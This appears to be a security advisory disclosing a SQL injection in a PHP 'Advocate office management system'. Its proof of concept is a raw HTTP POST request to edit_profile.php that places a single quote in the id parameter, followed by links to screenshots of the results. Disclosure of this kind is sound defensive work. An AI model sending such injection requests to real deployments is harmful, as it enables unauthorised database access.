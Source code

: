 1.Advocate office management system SQL Injection

2.Description
The system Client doesn't properly sanitise POST parameter, which result into a SQL Injection.


3.Vendor 
Homepage https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html


4.Author 
will@webray.com.cn inc


5.Proof of Concept
(1)Request package details

POST /kortex_lite/kortex_lite/control/edit_profile.php?id=' HTTP/1.1

Host: 192.168.67.19

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------138672589812532910882517597860

Content-Length: 697

Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

Upgrade-Insecure-Requests: 1


-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="id"


1

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="name"


Mayuri K

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="username"


mayuri.infospace@gmail.com

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="image"; filename="2.png"

Content-Type: image/png


123

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="edit"




-----------------------------138672589812532910882517597860--


(2)Verification results
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system2.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system3.png)
